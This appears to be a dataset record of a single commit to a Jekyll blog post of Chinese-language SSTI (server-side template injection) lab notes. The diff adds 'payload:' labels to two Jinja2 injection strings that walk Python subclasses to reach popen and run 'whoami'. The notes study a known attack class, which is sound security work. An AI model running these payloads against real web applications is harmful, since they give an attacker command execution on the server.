

Before and after one commit to WhyUBullyMeXcc/WhyUBullyMeXcc.github.io, a Jekyll site: the page built from _posts/2020-12-13-SSTI笔记.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-12-13-SSTI笔记.md

````diff
--- a/_posts/2020-12-13-SSTI笔记.md
+++ b/_posts/2020-12-13-SSTI笔记.md
@@ -1,5 +1,5 @@
 ---
-title: 笔记
+title: SSTI笔记
 categories: [笔记]
 comments: true
 ---
@@ -82,6 +82,7 @@
 然后如果在html里找太麻烦了，我懒得看，所以可以换一种方式，利用执行语句的方式直接找到函数之后进行命令执行
 
 ```python
+payload:
 {% for c in [].__class__.__base__.__subclasses__() %}
 {% if c.__name__ == 'catch_warnings' %}
   	{% for b in c.__init__.__globals__.values() %}
@@ -103,7 +104,7 @@
 之前一直在尝试用popen也就是固定的位置，本机测出来的128索引，但是一直失败，不知道为啥，然后去靶机里面查看了才知道是位置不同，踩了好久的坑。。最后测出来popen函数的位置在117
 
 ```python
-{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
+payload：{{"".__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.popen('whoami').read()}}
 ```
 
 ![image-20201213193856764](../assets/img/text/image-20201213193856764.png)
````
